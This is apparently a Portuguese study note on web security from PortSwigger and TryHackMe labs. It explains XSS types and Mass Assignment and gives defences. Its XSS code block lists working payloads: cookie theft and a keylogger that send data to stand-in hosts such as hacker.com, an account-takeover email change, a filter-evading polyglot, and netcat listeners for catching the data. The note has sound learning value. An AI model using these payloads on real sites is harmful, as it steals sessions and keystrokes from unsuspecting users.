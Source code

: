 #Cross_Site_Scripting (XSS):
     * De acordo com a OWASP, os ataques XSS Persistent são aqueles onde os scripts são armazenados permanentemente no back-end. A vítima então recebe esse script ao realizar o acesso a página.
     * ! XSS reflected => Caso for feito um XSS refletido, o script inserido é executado apenas na página do atacante. Devido a isso, caso ele queira que outro usuário acesse a página, deverá enviar sua url para que o outro acesse e veja seu script. Isso é um ataque de engenharia social conhecido como phishing.
     * ! XSS Persist => Caso for feito um XSS armazenado ou persistente, o script inserido pelo atacante ficará armazenado no servidor da aplicação, sendo assim, qualquer outro usuário que acessar a página verá o script injetado.
     * ! XSS baseada em DOM => O JavaScript do site obtém o conteúdo do parâmetro window.location.x e o grava na página, na seção visualizada no momento. O conteúdo do hash não é verificado em busca de código malicioso, permitindo que um invasor injete o JavaScript de sua escolha na página. Quando você encontrar esses trechos de código, precisará ver como eles são manipulados e se os valores são gravados no DOM da página da web ou passados ​​para métodos JavaScript inseguros, como eval().
```bash
   $ nc -lvp 80   =>  Net catch, responsável por abrir portas, ele ficará escutando as informações que trafegam nessa porta. Utilizando o Kali Linux, abrimos o terminal e nele vamos usar o net catch (nc). O nc deve escutar (-l) e mostrar (v) a porta (p) de número 80.
       $ No lab 1 de XSS da PortSwigger colocamos na barra de busca '<script>alert(1)</script>', essa informação alterou nossa url, assim, quando alguem acessar esse link novamente, a url virá com esse script que será interpretado pelo navegador.
       $ No lab 3 analisando o html vimos que a cada busca na barra de pesquisa o texto é adicionado me uma tag img ' <img src="/resources/images/tracker.gif?searchTerms=busca feita na barra de pesquisa ">'. Dessa forma, podemos colocar um código nessa tag para executarmos um ataque XSS, ' <img src="/resources/images/tracker.gif?searchTerms="><svg onload=alert(1)> //
"> '

& <script>alert('XSS');</script>
& <script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>
& <script>document.onkeypress = function(e) {fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>
& <script>user.changeEmail('attacker@email.com');</script>
& <sscriptcript>alert('THM');</sscriptcript>
& /images/cat.jpg" onload="alert('THM');

& nc -nlvp <port>
& </textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
```
& jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
#Mass_Assignment:
       * A atribuição em massa é uma vulnerabilidade do computador em que um padrão de registro ativo em um aplicativo Web é abusado para modificar itens de dados que o usuário normalmente não deve ter permissão para acessar, como senha, permissões concedidas ou status de administrador. (O ataque de Mass Assignment explora a questão dos frameworks MVC permitirem que associemos valores dos formulários diretamente com nossas classes de modelo. Com isso, o usuário pode vir através da manipulação do formulário HTML alterar os atributos presentes nessa classe modelo.)
 	  ! Github já sofreu com esse ataque, ver: https://gist.github.com/peternixey/1978249    e   https://www.alura.com.br/artigos/seguranca-de-sua-aplicacao-e-os-frameworks-ataque-ao-github
       ! Para proteger contra o ataque de Mass assignment nós criamos uma classe chamada UsuarioDTO que poderia ser utilizada em qualquer framework. Uma alternativa ao DTO é o método setAllowedFields, em que somente os atributos listados é que poderão ser manipulados pelo usuário. Com isso, mesmo que o usuário tente manipular o atributo roles pelo formulário HTML, isso não será refletido para o atributo da nossa classe e um usuário só será cadastrado com o perfil ROLE_USER. (O método setAllowedFields permite que nós especifiquemos quais são os atributos da classe que o usuário terá permissão de manipular. No caso da Alura Shows, temos a classe modelo Usuario com o atributo roles que não deve ser manipulado e com isso não o especificamos dentro desse método.)
#Backdoor: